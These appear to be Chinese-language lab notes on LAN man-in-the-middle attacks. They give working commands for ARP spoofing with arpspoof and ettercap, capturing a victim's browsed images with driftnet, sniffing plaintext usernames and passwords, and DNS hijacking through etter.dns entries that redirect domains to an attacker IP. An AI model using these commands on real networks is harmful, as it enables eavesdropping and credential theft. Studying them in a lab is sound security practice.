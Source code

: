 ![[Pasted image 20241018223617.png]]

源IP：网关
源mac：伪造

开启端口转发并开启arp 欺骗
echo 1 > /proc/sys/net/ipv4/ip_forward

通过以下命令确保永久启用：
`echo "net.ipv4.ip_forward = 1" >> /etc/sysctl.conf 
sysctl -p`


arpspoof -i eth0 -t 192.168.163.132 -r 192.168.163.2


开启新的 shell 执行命令，该命令会自动打开一个 shell 窗口并获取目的主机所浏览的图片。
命令格式：driftnet -i 网卡
driftnet -i eth0
driftnet -i eth0 -a -d /root/hhh #相关参数解读：
-b 捕获到新的图片时发出嘟嘟声
-i interface 选择监听接口
-f file 读取一个指定pcap数据包中的图片
-p 不让所监听的接口使用混杂模式
-a 后台模式：将捕获的图片保存到目录中（不会显示在屏幕上）
-m number 指定保存图片数的数目
-d directory 指定保存图片的路径
-x prefix 指定保存图片的前缀名


arp 欺骗——获取账号密码
利用 ettercap 来抓取账号密码。在终端输入
ettercap:是一个基于ARP地址欺骗方式的网络嗅探工具，主要适用于交换局域网络。
借助于EtterCap嗅探软件，渗透测试人员可以检测网络内明文数据通讯的安全性，及时采取措施，避免敏感的用户名/密码等数据以明文的方式进行传输。

1、在物理机上找一个网站（http协议的），输入用户名和密码登录。
ettercap -Tq -i eth0
-T 文本模式运行
-q 安静模式
-i 网卡，后接网卡名 #这条命令表示监控eth0网卡的流量

2、在虚拟机中开启 ARP 欺骗，并输入命令 “ettercap -Tq -i eth0” 监测密码和账号
登录后便可抓取到账号和密码，并以明文的方式显示到屏幕上。

ARP攻击的其他相关运用：https://www.jianshu.com/p/de44827f839e



==**DNS劫持**==
1，首先修改一下DNS配置文件
vim /etc/ettercap/etter.dns
添加以下字段：
*.baidu.com A 10.0.0.9
www.*.com A 10.0.0.9
*.*.com A 10.0.0.9  #加入这段字符的意思是：

将任意开头.baidu.com的域名解析到10.0.0.9
将所有www开头，中间任意字符，以CMD结尾的域名解析到10.0.0.9
将任意开头，中间任意字符，以CMD结尾的域名解析到10.0.0.9

2，打开kali机器的ettercap工具
ettercap -G

![[1729310420605.jpg]]

3，扫描当前局域网的主机列表
![[Pasted image 20241019120042.png]]


4，将目标主机和网关分别添加到Target1和Target2中
因为是双向欺骗，因此需要添加两个组：网关为一组，目标主机为二组
![[1729310492471.jpg]] 

5、先进行arp欺骗
`sudo ettercap -T -q -i eth0 -M arp:remote /192.168.163.132// /192.168.163.2//`
![[Pasted image 20241019125104.png]]

6、再开始DNS欺骗

![[Pasted image 20241019125132.png]]![[Pasted image 20241019125147.png]]

7、ping www.baidu.com
